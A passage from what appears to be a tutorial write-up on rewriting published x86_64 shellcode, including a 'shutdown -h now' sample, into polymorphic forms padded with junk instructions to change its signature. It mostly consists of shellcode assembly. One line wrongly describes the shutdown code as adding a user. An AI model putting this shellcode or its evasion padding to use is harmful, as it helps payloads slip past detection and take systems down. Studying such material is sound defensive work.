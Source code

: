 ```asm
    push r9
    pop rsi

garbage_jump_2:
    push 19
    pop rdx
    syscall

    ;close
    push 3
    pop rax
    syscall

    ; Garbage
garbage_jump_3:				; Lot of garbage
    push 10					; Just a bucle
    pop rcx
garbage_jump_3_loop:
    push 60
    pop rax
    loop garbage_jump_3_loop
    ; End Garbage

    ;exit
    xor rdi, rdi
    syscall
```
### Sample 3: `shutdown -h now x86_64 Shellcode`
---
* Shellcode Name: shutdown -h now x86_64 Shellcode
* Author: Osanda Malith (@OsandaMalith)
* URL: [http://shell-storm.org/shellcode/files/shellcode-877.php](http://shell-storm.org/shellcode/files/shellcode-877.php)
* Description: Shutdowns the system
* Original Shellcode Size: 65 bytes
* Max Size of the polymorphic Version: 97 bytes
* Size of the Created Polymorphic Version: 64 bytes (**below the original size**)

The original code defines a string that contains the commands to execute to add the user. For that it is using the JMP-CALL-POP technique to access and refer to thad string.

The original code is:
```asm
global _start
section .text
_start:

        xor rax, rax
        xor rdx, rdx

        push rax
        push byte 0x77
        push word 0x6f6e ; now
        mov rbx, rsp

        push rax
        push word 0x682d ;-h
        mov rcx, rsp

        push rax
        mov r8, 0x2f2f2f6e6962732f ; /sbin/shutdown
        mov r10, 0x6e776f6474756873
        push r10
```